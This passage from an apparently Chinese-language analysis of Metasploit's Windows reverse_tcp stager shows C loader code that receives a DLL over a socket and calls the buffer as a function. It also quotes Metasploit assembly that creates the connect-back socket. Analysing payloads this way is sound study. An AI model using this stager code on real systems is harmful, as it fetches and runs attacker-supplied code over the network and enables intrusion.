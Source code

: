 ```c
    /* 
    *SOCKET赋值到EDI寄存器，装载到buffer[]中
    */
    //mov edi
    buffer[0] = 0xBF;

    /* 把我们的socket里的值复制到缓冲区中去*/
    memcpy(buffer + 1, &my_socket, 4);

    /* 读取字节到缓冲区
    *这里就循环接收DLL数据，直到接收完毕
    */
    count = recv_all(my_socket, buffer + 5, size);

    /* 将缓冲区作为函数并调用它。
    * 这里可以看作是shellcode的装载，
    * 因为这本身是一个DLL装载器，完成使命，控制权交给DLL，
    * 但本身不退出，除非迁移进程，靠DLL里函数，DLL在DLLMain里是循环接收指令的，直到遇到退出指令，
    * (void (*)())buffer的这种用法经常出现在shellcode中
    */
    function = (void (*)())buffer;
    function();
    return 0;
}
```

两份代码都没解决我们的疑问

我们直接翻翻msf源码

[lib/msf/core/payload/windows/reverse_tcp.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/windows/reverse_tcp.rb)

代码比较长我就不贴了，简要说一下， `asm_block_recv` 函数是接收载荷的函数，然后我们看看 `asm_reverse_tcp` 

```asm
      create_socket:
        push #{encoded_host}    ; host in little-endian format
        push #{encoded_port}    ; family AF_INET and port number
        mov esi, esp            ; save pointer to sockaddr struct
        push eax                ; if we succeed, eax will be zero, push zero for the flags param.
        push eax                ; push null for reserved parameter
        push eax                ; we do not specify a WSAPROTOCOL_INFO structure
        push eax                ; we do not specify a protocol
        inc eax                 ;
        push eax                ; push SOCK_STREAM
        inc eax                 ;
        push eax                ; push AF_INET
        push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')}
        call ebp                ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );
        xchg edi, eax           ; save the socket for later, don't care about the value of eax after this
```
